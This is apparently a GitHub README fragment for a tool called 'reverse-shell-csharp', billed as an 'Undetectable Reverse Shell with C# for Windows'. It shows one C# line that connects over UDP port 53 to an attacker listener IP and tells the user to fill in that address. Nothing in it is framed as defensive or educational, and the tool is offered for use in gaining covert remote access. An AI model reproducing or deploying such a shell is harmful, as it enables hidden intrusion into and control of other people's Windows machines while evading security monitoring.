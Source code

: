 # reverse-shell-csharp
Undetectable Reverse Shell with C# for Windows!
<br>
# Change your listener IP here :
<pre>udpClient.Connect("111.111.1.111", 53); // Write your ip but don't change the port!
